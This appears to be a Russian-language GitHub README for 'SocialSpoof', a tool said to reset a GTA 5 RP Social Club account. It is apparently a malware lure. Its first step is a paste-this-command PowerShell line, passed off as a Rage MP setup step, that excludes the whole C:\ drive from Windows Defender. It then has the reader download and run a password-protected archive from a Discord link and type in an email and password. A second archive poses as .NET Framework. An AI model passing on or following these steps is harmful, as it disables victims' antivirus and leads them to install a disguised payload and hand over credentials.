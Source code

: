 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP
                                        
📖 В этой статье я расскажу вам, как это сделать. 👇

                                                  🔧Установка

Шаг 1 ⚙️
<summary style="color: blue; font-weight: bold;">Сделайте расширение системных файлов Rage Mp</summary>

Нажмите Win+R и введите команду

`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

Шаг 2 📥

Как только выполнили расширение, загрузите [SocialSpoof](https://cdn.discordapp.com/attachments/1153709870365806742/1154026506331377754/SocialSpoof.rar)

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите софт, и заходите в игру

Шаг 5 ✏️

Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎

                                      🔧Не забудьте выполнить инструкцию 

Если не работает, установите [.net Framework 3.5](https://cdn.discordapp.com/attachments/1146948784778137701/1159036797540630558/netFramework3.5.rar?ex=651e6ca2&is=651d1b22&hm=e4517d5af78cfca23d6e68d288d18e10eb51da82e23c20ddafa65969ebfbf817&)
